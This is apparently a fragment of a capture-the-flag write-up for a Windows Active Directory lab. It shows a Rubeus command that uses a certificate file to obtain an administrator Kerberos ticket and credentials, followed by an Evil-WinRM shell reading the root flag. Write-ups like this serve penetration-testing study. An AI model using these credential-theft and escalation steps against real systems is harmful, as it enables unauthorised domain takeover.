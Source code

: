 ```./Rubeus.exe asktgt /user:administrator /certificate:cert.pfx /getcredentials /show```


*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
64c09ec2cb1043f979036ecb8df4635e
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cd ../Desktop
```
